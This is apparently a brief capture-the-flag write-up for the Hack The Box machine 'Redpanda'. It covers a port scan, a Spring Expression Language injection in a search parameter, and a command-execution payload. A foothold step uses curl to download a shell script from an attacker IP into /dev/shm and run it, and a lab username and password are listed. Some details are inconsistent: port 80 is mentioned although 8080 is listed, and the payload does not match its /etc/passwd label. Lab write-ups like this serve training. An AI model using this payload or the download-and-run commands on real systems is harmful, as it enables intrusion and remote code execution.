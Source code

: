 Hack The Box : Redpanda

IP : 10.10.11.170

Open ports

```bash
22/tcp   open  ssh   
8080/tcp open  http-proxy

```

Port 80 is running a java based web application called spring boot

```html
  <title>Red Panda Search | Made with Spring Boot</title>
```

SpEl vuln in name parameter

```
7*7 49
```

Reading etc/passwd file

payload

```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec((T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(116))).getInputStream())}
```

Foothold

backdoor

```
curl 10.10.16.17/shell.sh -o /dev/shm/shell.sh
chmod +x /dev/shm/shell.sh
bash /dev/shm/shell.sh
```

username : woodenk
password : RedPandazRule


